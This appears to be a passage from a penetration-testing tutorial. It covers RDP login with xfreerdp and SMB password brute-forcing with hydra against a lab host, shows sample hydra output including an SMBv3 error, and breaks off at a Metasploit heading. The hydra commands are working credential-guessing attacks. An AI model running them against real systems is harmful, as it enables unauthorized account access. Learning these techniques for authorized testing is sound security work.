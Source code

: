 ```shell-session
[!bash!]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

```shell-session
[!bash!]$ xfreerdp /v:10.129.42.197 /u:user /p:password
```

## SMB

[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

#### Hydra - SMB

```shell-session
[!bash!]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```
However, we may also get the following error describing that the server has sent an invalid reply.

#### Hydra - Error

  Network Services

```shell-session
alakin2504@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).
#### Metasploit Framework
